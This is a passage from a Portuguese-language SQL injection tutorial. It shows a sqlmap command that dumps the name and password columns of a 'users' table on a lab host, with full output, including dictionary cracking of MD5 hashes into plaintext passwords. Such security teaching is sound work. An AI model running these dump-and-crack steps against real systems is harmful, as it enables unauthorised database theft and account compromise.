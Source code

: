 O SQLmap retornou que a tabela ``users`` possui os campos: ``name`` e ``password``. Vamos continuar a exploração, tentando agora obter essas informações das colunas descobertas.


#### Sqlmap - obtendo os dados de uma tabela

A parte mais desejada da exploração SQLi é obter os dados de uma tabela. Neste exemplo vamos tentar obter dados que parecem ser usuário/senha do sistema. Para isso é necessário além das opções utilizadas nos comandos anteriores, passar: os nomes das colunas (``-C name,password``) e a opção  **``--dump``**, para recuperar os dados dessas colunas. Veja o comando e seu resultado na saída a seguir:

```console
# sqlmap -u "http://192.168.56.108/index.php" --data="search=Elvis" -D employees -T users -C name,password --dump
...
[09:53:46] [INFO] fetching entries of column(s) 'name,password' for table 'users' in database 'employees'
[09:53:46] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[09:53:49] [INFO] writing hashes to a temporary file '/tmp/sqlmapmrngvs1r386570/sqlmaphashes-p_tdu2sh.txt'
do you want to crack them via a dictionary-based attack? [Y/n/q]

[09:53:54] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1

[09:54:01] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] y

[09:54:08] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[09:54:08] [INFO] starting 2 processes
[09:54:10] [INFO] cracked password '123456' for hash 'e10adc3949ba59abbe56e057f20f883e'
[09:54:10] [INFO] cracked password '123mudar' for hash '89794b621a313bb59eed0d9f0f4e8205'
[09:54:24] [INFO] cracked password 'master' for hash 'eb0a191797624dd3a48fa681d3061212'
[09:54:26] [INFO] cracked password 'felicidade' for hash '739419e9dbbe9aa73bd716d4b3b9d86b'
[09:54:30] [INFO] cracked password 'iloveyou' for hash 'f25a2fc72690b780b2a14e140ef6a9e0'
[09:54:44] [INFO] using suffix '1'
[09:55:19] [INFO] current status: parge... |^C
[09:55:19] [WARNING] user aborted during dictionary-based attack phase (Ctrl+C was pressed)
Database: employees
Table: users
[5 entries]
+---------+-----------------------------------------------+
| name    | password                                      |
+---------+-----------------------------------------------+
| jose    | e10adc3949ba59abbe56e057f20f883e (123456)     |
| antonio | f25a2fc72690b780b2a14e140ef6a9e0 (iloveyou)   |
| maria   | eb0a191797624dd3a48fa681d3061212 (master)     |
| ana     | 739419e9dbbe9aa73bd716d4b3b9d86b (felicidade) |
| luiz    | 89794b621a313bb59eed0d9f0f4e8205 (123mudar)   |
+---------+-----------------------------------------------+

[09:55:19] [INFO] table 'employees.users' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.56.108/dump/employees/users.csv'
[09:55:19] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.56.108'

[*] ending @ 09:55:19 /2023-04-17/
```